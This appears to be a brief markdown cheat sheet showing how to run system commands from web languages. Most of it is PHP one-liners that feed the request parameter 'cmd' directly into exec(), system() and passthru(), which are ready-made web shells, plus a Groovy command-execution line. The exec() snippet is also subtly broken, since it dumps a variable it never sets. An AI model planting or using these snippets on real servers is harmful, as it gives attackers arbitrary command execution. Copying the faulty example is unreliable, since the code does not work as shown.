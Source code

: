 # EXEC in Many Languages
This cheat sheet will provide many different examples of how to perform system(), exec(), and more in different web languages.
## PHP
PHP is widely used and can often have the system(), exec(), etc functions eenabled in the php.ini configuration file.
### Exec()
```
<?php
 exec($_GET['cmd'],$response);
 var_dump($output) # dump entire object to DOM
 ?>
```
### System()
```
<?php
 echo system($_GET['cmd']); # "echo()s" to the DOM
 ?>
```
### Passthru()
```
<?php
 passthru($_GET['cmd']); # displays right to the DOM
 ?>
```
## Groovy
Groovy/Java can execute commands and print the output like so,
```
print "cmd /c mvn".execute().text
```
